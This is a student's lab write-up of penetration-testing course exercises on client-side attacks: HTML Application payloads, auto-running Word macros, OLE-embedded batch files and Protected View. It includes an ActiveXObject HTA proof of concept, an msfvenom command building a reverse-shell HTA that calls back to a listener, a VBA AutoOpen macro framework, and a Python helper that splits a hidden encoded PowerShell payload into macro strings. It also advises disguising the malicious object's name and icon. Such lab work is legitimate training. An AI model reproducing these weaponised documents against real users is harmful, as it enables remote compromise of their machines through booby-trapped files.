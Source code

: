 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[Pasted image 20220715172425.png]]

When we run the PoC we get a successful calc.exe command:
![[Pasted image 20220715172534.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[Pasted image 20220715173157.png]]
![[Pasted image 20220715173122.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[Pasted image 20220715173422.png]]
![[Pasted image 20220715173441.png]]
Upon clicking "Run" we recieve our connection.
![[Pasted image 20220715173521.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**

To start, we need to create a framework for our Microsoft Word macro. We use the following code as that framework:
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub

```
This includes the AutoOpen and Document_Open procedures, which will cause the macro to run automatically.

Upon reopening the document, we see that a warning is present warning that macros are enabled.
![[Pasted image 20220715175358.png]]

Once the victim clicks "Enable Content" our PoC macro executes and we see cmd.exe.
![[Pasted image 20220715175549.png]]

From here we are going to turn to Powershell in order to reuse our Metasploit shellcode. We first declare a variable called "Str".  From there we need to set our variable to the base64 encoded string of the shellcode. As VBA has a 255 character limit for strings we can split the command into multiple lines before concatenated them. To do this we will use the following python code.

```
str = "powershell.exe -nop -w hidden -e BASE64_ENCODED_SHELL....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```
We then update our macro to include this newly split shellcode and to run the variable "Str" which is set to this shellcode.
![[Pasted image 20220715180707.png]]

From here, we just need to start a listener and open the document and we recieve our reverse shell.
![[Pasted image 20220715180802.png]]

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**

To begin, we need to create a batch to be embedded into Microsoft Word. To do this we simply echo our base64 encoded shellcode into an object named "lanch.bat" 
![[Pasted image 20220715215507.png]]

We then need to open Microsoft Word and insert our launch.bat object.
![[Pasted image 20220715215735.png]]

We can even change the name and icon of the malicious file to be more inconspicuous. 
![[Pasted image 20220715220140.png]]

Once we open our Word document and launch our object we will recieve a reverse shell.
![[Pasted image 20220715221253.png]]
![[Pasted image 20220715221353.png]]

# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**

We can trigger the Protected View by simply downloading our document from our Apache web server.



**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**


**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**